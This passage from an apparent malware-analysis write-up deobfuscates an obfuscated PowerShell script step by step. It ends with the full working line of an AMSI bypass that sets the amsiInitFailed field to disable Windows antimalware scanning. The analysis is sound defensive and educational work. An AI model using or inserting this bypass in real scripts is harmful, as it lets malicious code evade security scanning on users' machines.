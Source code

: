 ### Third Section - Step 3 - String Concatenation

To determine which class the above command is looking for, we have to do some more string formatting deobfuscation. The code can be seen below:

```
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')
```

Following through the logic mentioned above about how to deobfuscate this, we get the following string:

`System.Management.Automation.AmsiUtils`

By now, you may have guessed exactly what this whole block of code is doing, but for now, let's continue piecing it together. So far, our full line of code looks like the following:

`[ref].Assembly.GetType("System.Management.Automation.AmsiUtils")`

### Third Section - Step 4 - More String Concatenation

The next block of code is the following:

```
."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))
```

More basic string formatting. Though this time, we can see that there are two sections to it; the first section uses the code `{0}{2}{1}`, while the second section uses `{2}{4}{0}{1}{3}`. We can also see that they are separated by a comma.

Following through again with our deobfuscation, our first section turns out to be `amsiInitFailed` and the second section correlates to `NonPublic,Static`. This makes the full deobfuscated string:

`.GetField("amsiInitFailed","NonPublic,Static")`

Since we now have a `.GetField` command, this means that we are trying to access specific fields within the class mentioned previously and look at or manipulate their values. The full line of code is now thusly:

`[ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiInitFailed","NonPublic,Static")`

### Third Section - Step 5 - Final Deobfuscation

The final bit of obfuscated code in this section is:

```
."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

We can tell just from looking at this that the command now is `.SetValue`, meaning the code will be actively manipulating the fields retrieved in the previous section.

The obfuscation in this section is pretty much the same as the previous, with one difference; the addition of the `${}` characters around the variables. In PowerShell, this is simply another method of declaring a variable that is mostly the same. Declaring variable `${test}` and `$test` are the same thing. This means that the variables declared in the above code will equate to `$null` and `$true`.
